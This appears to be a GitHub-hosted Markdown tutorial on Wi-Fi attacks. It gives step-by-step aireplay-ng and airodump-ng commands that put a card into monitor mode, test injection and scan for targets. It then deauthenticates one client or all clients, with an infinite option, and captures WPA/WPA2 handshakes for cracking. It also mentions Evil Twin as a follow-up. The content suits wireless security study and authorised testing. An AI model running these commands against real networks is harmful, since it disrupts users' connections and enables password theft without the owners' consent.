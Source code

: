 # Chain #4: Generating Traffic & Deauthentication

This chain explains how to use **Aireplay-ng** to generate traffic and perform deauthentication attacks. Aireplay-ng is essential when we need to:
- Capture WPA/WPA2 4-way handshakes by forcing clients to reconnect.
- Test whether our wireless card supports **packet injection**.
- Simulate client traffic on the target network.

---

## Step 1: Prepare the Wireless Interface

Before using Aireplay-ng, ensure the wireless interface is in **monitor mode** and tuned to the correct channel.

```bash
sudo airmon-ng start wlan0 6
```

- `wlan0` → your wireless interface.
- `6` → the target channel (replace with the real channel).
- The interface will usually be renamed to `wlan0mon`.

**If you're already in monitor mode, retune quickly before deauth/capture:**
```
sudo iw dev wlan0mon set channel <CHANNEL>
```
- Prevents the classic “waiting for beacon on the wrong channel” issue before you deauth or capture handshakes.

**Verify monitor mode:**

```bash
iwconfig
```

Look for `Mode:Monitor` in the output.

---

## Step 2: Test for Packet Injection

Before attacking, confirm your card can inject packets:

```bash
sudo aireplay-ng --test wlan0mon
```

- Aireplay-ng sends test probe requests.
- If you see **"Injection is working!"**, your card supports packet injection.

---

## Step 3: Scan for Access Points and Clients

Use Airodump-ng to identify APs and clients:

```bash
sudo airodump-ng wlan0mon
```

- `BSSID` → MAC address of the AP.
- `CH` → Channel.
- `ESSID` → Network name.
- `STATION` → Clients connected to the AP.

Take note of:
- The **AP BSSID** (target).
- The **client MAC** (optional — for targeted deauth).

---

## Step 4: Perform Deauthentication Attack

### Option A: Target a Specific Client

```bash
sudo aireplay-ng -0 5 -a <AP_BSSID> -c <CLIENT_MAC> wlan0mon
```

- `-0` → deauthentication attack.
- `5` → number of deauth packets to send (`0` = infinite).
- `-a <AP_BSSID>` → target AP MAC address.
- `-c <CLIENT_MAC>` → target client MAC address.
- `wlan0mon` → monitor interface.

This disconnects the specified client, forcing it to reconnect (useful for capturing WPA/WPA2 handshakes).

### Option B: Deauthenticate All Clients

```bash
sudo aireplay-ng -0 10 -a <AP_BSSID> wlan0mon
```

- This disconnects **all clients** connected to the AP.

---

## Step 5: Capture the Handshake

While sending deauth packets, run Airodump-ng to capture the WPA handshake:

```bash
sudo airodump-ng -c <CHANNEL> --bssid <AP_BSSID> -w capture wlan0mon
```

- `-c <CHANNEL>` → lock to the AP’s channel.
- `--bssid <AP_BSSID>` → target AP.
- `-w capture` → write to `capture.cap` file.

Watch for `WPA handshake: <AP_BSSID>` in the top-right corner of Airodump-ng.

---

## Step 6: Notes on Effectiveness

- **Protected Management Frames (PMF)** in WPA3 prevent deauth attacks.
- On WPA2, this is still highly effective.
- If clients reconnect automatically, you’ll capture the handshake quickly.
- If no clients are connected, you may need to **wait** or use another attack (e.g., Evil Twin).